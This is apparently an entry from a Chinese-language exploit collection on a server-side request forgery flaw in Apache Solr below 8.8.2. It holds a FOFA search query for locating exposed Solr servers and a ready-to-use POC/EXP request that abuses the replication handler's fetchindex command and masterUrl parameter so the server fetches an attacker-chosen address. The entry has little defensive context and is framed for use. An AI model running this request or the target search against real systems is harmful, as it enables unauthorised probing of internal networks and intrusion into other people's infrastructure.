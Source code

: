 ### 描述
Apache Solr存在服务器端请求伪造漏洞。攻击者可以传递特定参数，使得服务端发起请求，成功利用该漏洞可造成内网信息探测。  
影响范围：Apache Solr < 8.8.2  
fofa app="APACHE-Solr"

### POC & EXP

```
# 这里masterUrl为你想访问的链接
http://127.0.0.1:8983/solr/db/replication\?command=fetchindex\&masterUrl=http://xxxx
```

